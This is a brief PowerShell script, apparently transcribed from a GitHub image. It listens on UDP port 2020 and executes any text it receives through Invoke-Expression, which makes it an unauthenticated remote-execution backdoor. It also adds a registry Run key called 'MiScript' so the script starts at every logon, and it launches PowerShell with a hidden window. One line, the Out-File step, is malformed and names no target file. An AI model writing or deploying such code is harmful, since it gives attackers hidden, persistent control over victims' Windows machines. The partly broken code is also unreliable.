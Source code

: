 $port = 2020
$endpoint = New-Object System.Net.IPEndPoint ([IPAddress]::Any, $port)
$udpclient = New-Object System.Net.Sockets.UdpClient $port
$content = $udpclient.Receive([ref]$endpoint)
[Text.Encoding]::ASCII.GetString($content) | Invoke-Expression
$udpclient.Dispose()
$env:HOMEDRIVE + "\Users\" + "$env:USERNAME\script.ps1" | Out-File -Force
$rutaScript = $env:HOMEDRIVE + "\Users\" + "$env:USERNAME\script.ps1"
$nombreEntrada = "MiScript"
$valorEntrada = "powershell.exe -File $rutaScript"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name $nombreEntrada -Value $valorEntrada
Start-Process -FilePath "powershell.exe" -ArgumentList "-WindowStyle Hidden -File $rutaScript" -NoNewWindow -PassThru


